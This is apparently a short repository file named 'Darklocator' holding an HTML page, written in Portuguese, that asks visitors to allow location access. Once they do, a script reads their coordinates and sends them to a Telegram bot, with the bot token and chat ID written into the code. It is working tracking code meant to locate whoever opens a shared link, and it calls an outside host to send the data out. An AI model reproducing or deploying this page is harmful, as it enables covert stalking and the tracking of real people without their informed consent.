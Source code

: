 # Darklocator
<!DOCTYPE html> <html> <head> <title>Rastreamento de Localização</title> </head> <body> <h1>Rastreamento de Localização</h1> <p>Por favor, permita a localização para rastreamento.</p> <script> if (navigator.geolocation) { navigator.geolocation.getCurrentPosition(function(position) { var latitude = position.coords.latitude; var longitude = position.coords.longitude; var location = "Latitude: " + latitude + ", Longitude: " + longitude; // Enviar para o seu servidor ou Telegram fetch('https://api.telegram.org/bot7898620348:AAGGtfC4CbyFeQwN-QZSmUNpAAbRWAlpRhU/sendMessage?chat_id=6089502711&text=' + encodeURIComponent(location)) }); } else { alert("Geolocalização não é suportada neste navegador."); } </script> </body> </html>

